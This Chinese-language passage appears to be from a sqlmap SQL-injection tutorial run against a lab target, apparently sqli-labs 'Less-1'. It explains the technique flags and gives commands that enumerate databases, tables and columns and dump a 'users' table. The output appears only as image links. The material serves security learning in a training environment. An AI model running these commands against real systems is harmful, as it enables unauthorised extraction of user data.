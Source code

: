 指定sqlmap使用的检测技术

* B:Boolean-based-blind  （布尔型型注入）

* E:Error-based   （报错型注入）

* U:Union query-based  （联合注入）

* S:Starked queries   （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）

* T:Time-based blind  （基于时间延迟注入）

</font>

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" --dbs --batch --technique B`

![20](https://i.imgur.com/6EobR3x.png)

![19](https://i.imgur.com/ZzNnuBy.png)

### 获取表 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security --tables`

![22](https://i.imgur.com/RbMVkf4.png)

![21](https://i.imgur.com/yFC9jZD.png)

### 获取表的列名 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security -T users --columns`

![24](https://i.imgur.com/keAEMDi.png)

![23](https://i.imgur.com/mkkn61S.png)

### 获取表中数据 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security -T users --columns --dump`

![26](https://i.imgur.com/hclOrZ5.png)

![25](https://i.imgur.com/qrbRqfl.png)